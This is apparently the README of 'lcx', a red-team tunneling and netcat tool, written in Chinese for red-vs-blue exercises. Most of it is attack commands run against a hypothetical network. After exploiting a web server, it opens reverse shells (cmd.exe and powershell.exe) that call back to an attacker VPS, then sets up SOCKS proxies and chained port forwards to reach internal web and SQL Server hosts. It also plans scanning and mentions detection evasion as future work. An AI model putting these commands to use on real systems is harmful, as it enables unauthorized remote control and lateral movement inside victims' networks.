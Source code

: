 # lcx

# # 概述

lcx是国内最早开发的隧道工具，具体的细节已经不清楚，也没有人继续维护了。后来出现了earthworm，将socks和lcx整合在一起，但后来也不做了。

这个工具就是在前两者的基础上继续开发，并加入了netcat的功能，这样通过一个工具，就可以实现内网的隧道穿透。

# 目标

红蓝对抗的时候，我需要一组红队工具和一组蓝队工具。lcx就是用来实现内网隧道建立，通过socks等代理协议，可以实现访问内网的web服务，通过netcat，可以实现反弹shell，这样就可以远程操作。

我使用nc代码比较凌乱，需要进一步整理。

# 说明

## 环境说明

```mermaid
graph TB
    subgraph 物理隔离网络
    10.240.110.1/16
    u1(NoExist 240)-->ur2(1)
    end
    subgraph 业务网络
    10.100.100.1/16
    t1(money 210)-->tr2(1)
    t2(stock 211)-->tr2(1)
    end
    subgraph 办公网络
    10.60.1.1/16
    s1(pc 160)-->sr2(1)
    s2(SQLServer 161)-->sr2(1)
    s3(oa 162)-->sr2(1)
    s4(web 163)-->sr2(1)
    end
    subgraph 互联网业务区
    114.114.114.1/16
    10.10.1.1/16
    p1(web 110)-->pr2(1)
    p2(web2 111)-->pr2(1)
    p3(mysql 112)-->pr2(1)
    end
    subgraph 公有云
        8.8.8.1/8
        c1(vps 5)-->cr2(1)
    end
    subgraph 红队
    	192.168.1.1/24
    	a1(kali 2)-->ar2(1)
    end
```

我们用这个图例来说明隧道建立过程和使用方法。 

我们假定红队通过小型网络连接到运营商网络，可以访问互联网，也可以通过VPS主机来访问客户的互联网业务，进而访问办公网络，进入业务系统。这里不涉及物理隔离网络，因为无法建立隧道。

## 使用场景

### 建立反弹shell

假定互联网业务的web容器有序列化漏洞，在114.114.114.110上得到一个web shell。

如果互联网业务允许http业务访问外部的http端口。得到反弹shell的操作如下：

在vps上运行

```bash
lcx.exe -S netcat -lvnp 443
listening on [any] 443 ...
connect to [8.8.8.5] from (UNKNOWN) [114.114.114.110] 30478
Microsoft Windows [Version 10.0.18363.778]
(c) 2019 Microsoft Corporation. All rights reserved.
d:\work\>
```

在web上运行

```cmd
lcx.exe -S netcat -e cmd.exe 8.8.8.5 443
```

这样就实现了从web服务器反弹连接到vps主机了，这样的一个反弹shell也可以使用powershell.exe来提供一个psh环境。

```powershell
lcx.exe -S netcat -e powershell.exe 8.8.8.5 443
```

### 访问互联网区域的web服务

1. 正向访问

   如果想访问 web2，但没有办法直接访问，那可以通过代理来访问，在web1上启动正向socks服务。

   ```cmd
   lcx.exe -S ssocksd -l 1080
   PS D:\work> .\lcx.exe -S ssocksd -l 1080
   server: listening on 0.0.0.0:1080
   ```

   然后在浏览器配置socks 代理为114.114.114.110:1080，就可以访问web2了。

2. 反向访问

如果想访问 web2，但没有办法直接访问，并且没法进行正向访问，那可以通过反向代理来访问。

- 先在vps上启动反向代理。

  ```bash
  lcx -S rcsocks -l 1080 -e 443 
  ```

- 然后在web1上启动

```cmd
lcx.exe -S ssocksd -s rssocks -d 8.8.8.5 -e 443 
```

然后在浏览器配置socks 代理为8.8.8.5:1080，就可以访问web2了。

### 访问办公区域的web服务

这里假定办公区可以访问DMZ，则可以采用多级串联方式来建立隧道。

- 先在web上启动TCP监听。

  ```bash
  lcx.exe -S listen -l 1080 -e 443 
  ```

- 然后在oa上启动

  ```cmd
  lcx.exe -S ssocksd   -l 9999
  lcx.exe -S slave  -d 10.10.1.110 -e 443 -f  10.60.1.162 -g 9999
  ```

  然后在浏览器配置socks 代理为114.114.114.110:1080，就可以访问办公网内的web服务了。


### 访问办公网络的SQL服务

假定办公网络使用的是SQL Server服务，端口为1433。

- 在互联网区的web上

  ```bash
  lcx.exe -S listen -l 443 -e 8888
  ```


- 然后在oa上启动

  ```cmd
  lcx.exe -S slave -d 10.10.1.110 -e 8888 -f 10.60.1.161 -g 1433
  ```
  
然后在数据库的服务器为114.114.114.162:1433，就可以访问数据库了。

### 访问业务网络的web服务



### 访问业务网络的SQL服务



# 规划

1. http proxy
2. IP v6
3. port scan lcx.exe -S netcat -zv 172.19.1.1 1-2000
4. multiple platform

# BUG

1. netcat仅仅支持例子中的两个命令，其它都不支持。
2. 不支持加密
3. 不支持yara规则检测躲避

# 参考

1. http://rootkiter.com/EarthWorm/
2. 

